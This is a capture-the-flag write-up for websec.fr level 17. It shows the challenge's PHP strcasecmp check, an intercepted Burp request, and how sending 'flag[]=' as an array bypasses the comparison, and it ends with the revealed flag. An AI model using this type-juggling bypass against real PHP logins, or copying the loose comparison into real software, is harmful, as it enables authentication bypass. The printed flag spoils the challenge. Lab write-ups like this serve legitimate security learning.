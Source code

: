 It is told to guess the flag. Source is given.
```
<?php
if (! strcasecmp ($_POST['flag'], $flag))
   echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';   
else
   echo '<div class="alert alert-danger">Invalid flag, sorry.</div>';
   ?>
 ```
The strcasecmp() function is a built-in function in PHP and is used to compare two given strings. It is case-insensitive.
Note: strcasecmp() requires the arguments to be strings. If either argument isn't a string, it returns NULL. NULL is falsey, so !strcasecmp(array(), "abc") returns TRUE.
```
So when we intercept in burp to see the request:
POST /level17/index.php HTTP/2
Host: websec.fr
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://websec.fr/
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://websec.fr
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

flag=flag{}&submit=Go
```
This above request gives invalid flag response.
Lets try changing `flag=` in POST request to `flag[]=`
`flag[]=flag{}&submit=Go`
Thus we got the flag.
flag: WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}
